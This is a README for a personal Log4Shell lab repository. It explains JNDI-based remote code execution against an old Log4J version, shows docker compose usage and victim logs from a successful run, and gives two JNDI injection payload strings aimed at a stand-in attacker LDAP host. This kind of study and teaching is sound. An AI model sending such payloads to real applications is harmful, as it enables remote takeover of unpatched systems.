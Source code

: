 # Log4Shell Test

This repository serves as my testbed for the Log4Shell exploit. It hosts the
code I played around with to understand how it works. Kotlin was used whenever
possible, but raw Java was used for the remote code since using Kotlin would've
necessitated serving its whole runtime library.


## Usage

This codebase comes packaged with a `docker compose` file for ease of use. To
see the exploit in action, simply run in the root of this repository
```
$ docker compose up
```

At first, there will be a few `Error looking up JNDI resource`. This is
expected, as it takes some time for the LDAP registry to be populated with the
exploit data. After about six seconds however, something resembling the
following message should be visible, indicating a successful remote code
execution.
```
log4shell-test-attacker_codebase-1             | 172.25.0.5 - - [30/Dec/2021:16:41:22 +0000] "GET /FactoryClass.class HTTP/1.1" 200 1695
log4shell-test-victim-1                        | RCE Acheived in FactoryClass::getObjectInstance!
log4shell-test-victim-1                        | name:    cn=made-class,dc=ldap-registry,dc=attacker
log4shell-test-victim-1                        | nameCtx: com.sun.jndi.ldap.LdapCtx@6e2c9341
log4shell-test-victim-1                        | env:     {}
log4shell-test-victim-1                        | obj:     Reference Class Name: MadeClass
log4shell-test-victim-1                        |
log4shell-test-attacker_codebase-1             | 172.25.0.5 - - [30/Dec/2021:16:41:22 +0000] "GET /RCEMain.class HTTP/1.1" 200 468
log4shell-test-victim-1                        | Function rceMain called!
log4shell-test-attacker_codebase-1             | 172.25.0.5 - - [30/Dec/2021:16:41:22 +0000] "GET /MadeClass.class HTTP/1.1" 200 573
log4shell-test-victim-1                        | RCE Acheived in MadeClass::toString!
log4shell-test-victim-1                        | Function rceMain called!
log4shell-test-victim-1                        | 16:41:22.343 TRACE MainKt - Attempted injection: MadeClass
```

### Options

As detailed at the end of the "Exploit Resources" section, there are two methods
of triggering remote code execution on the victim. One involves a `Reference`
and a factory, while the other involves serialization.

The factory method is the default, but the which method to use can be chosen by
modifying the payload given to the victim. Change the `victim`'s `JAVA_OPTS`
environment variable in the `docker compose` file to define the `victim-payload`
system property to read either the first or second line depending on whether the
former or latter method is desired.
```
$${jndi:ldap://attacker_ldap_registry:1389/cn=made-class,dc=ldap-registry,dc=attacker}
$${jndi:ldap://attacker_ldap_registry:1389/cn=serialized-class,dc=ldap-registry,dc=attacker}
```

Additionally, it seems the serialization method doesn't work on any recent Java
version without manually setting the `com.sun.jndi.ldap.object.trustURLCodebase`
system property to `true`. If that method is used, make sure to do that, again
via the `JAVA_OPTS` environment variable in the `docker compose` file


## Exploit Resources

Many other authors have covered how this exploit works far better than I ever
could. As such, I'll only give a very brief summary here and link to other
resources I found useful.

For a variety of reasons I don't fully understand, it would be nice to delay
specifying exactly how an application is set up as much as possible. For
example, it would be nice to not have to code to a particular implementation of
a database and have that baked into a service's `.class` files. Instead, it
would be better to specify that we need a `"Account Database"` and have that
service discoverable at runtime.

The Java Platform allows for this flexibility. It allows code to lookup,
download, and execute remote objects (not `class`es, objects). This way, one
service doesn't need to have its binaries coupled with another. They can still
communicate with each other as long as they share an `interface`.

There are many ways to acheive this remote-lookup functionality. Java provides a
method to store serialized or factory-generated objects in LDAP directories. It
also provides a framework to invoke remote methods, and that can be made to do
the same thing.

All these different providers of this remote-lookup service are abstracted away
by the Java Naming and Directory Interface (JNDI) framework. JNDI provides
interfaces to LDAP, RMI, CORBA, and other lookup services.

Of course, the whole point of this framework is to download remote objects so
the application can do stuff with them, and this can lead to problems. Say some
attacker could control the target of a JNDI lookup. Then, they could inject
their own class into the application. Presumably, it would then have methods
called on it, leading to Remote Code Execution (RCE).

There are many ways to actually acheive RCE with this vector. One way is to
create a `Reference` to an object. `Reference` objects hold information about
another object, including the factory class to use to create them. The factory
class is where the RCE happens first. Another way is to store a serialized
object in an LDAP server. This object is deserialized on the victim, then a
method is called on it to trigger RCE.

### Overview Resources
* [LiveOverflow](https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w):
  * [Overview](https://www.youtube.com/watch?v=w2F67LbEtnk)
  * [Internals](https://www.youtube.com/watch?v=iI9Dz3zN4d8)
* [*A Journey From JNDI/LDAP Manipulation to Remote Code Execution Dream Land*](https://www.youtube.com/watch?v=Y8a5nB-vy78)
* [Flow Diagram](https://www.radware.com/security/threat-advisories-and-attack-reports/log4shell-critical-log4j-vulnerability/)
* [Impact](https://www.lunasec.io/docs/blog/log4j-zero-day/)

### JNDI Resources
* [Tutorial](https://docs.oracle.com/javase/jndi/tutorial/):
    * [Tutorial: How Java Objects are Stored](https://docs.oracle.com/javase/jndi/tutorial/objects/index.html)
* [Technotes](https://docs.oracle.com/javase/8/docs/technotes/guides/jndi/):
  * [LDAP](https://docs.oracle.com/javase/8/docs/technotes/guides/jndi/jndi-ldap.html)
  * [RMI](https://docs.oracle.com/javase/7/docs/technotes/guides/jndi/jndi-rmi.html)
* [Java Documentation](https://docs.oracle.com/javase/8/docs/api/):
  * [`DirContext`](https://docs.oracle.com/javase/8/docs/api/javax/naming/directory/DirContext.html)
  * [`Reference`](https://docs.oracle.com/javase/8/docs/api/javax/naming/Reference.html)
  * [`ObjectFactory`](https://docs.oracle.com/javase/8/docs/api/javax/naming/spi/ObjectFactory.html)
* [RFC 2713](https://datatracker.ietf.org/doc/html/rfc2713)


## Limitations

Obviously, this repository uses an out-of-date version of Log4J - version
`2.14.0` specifically. It also uses an out-of-date version of Java due to the
exploit it uses. Instead of using gadgets already in the `CLASSPATH`, it
requires the victim to download `.class` files from a remote codebase. This
feature can be enabled in any Java version by setting the system property
`com.sun.jndi.ldap.object.trustURLCodebase` to `true`. Additionally, the factory
method works even without that option explicitly set in up to and including Java
`8u171`.

Additionally, it doesn't add any instrumentation to Log4J itself. It treats the
library as a black box that allows arbitrary JNDI queries.
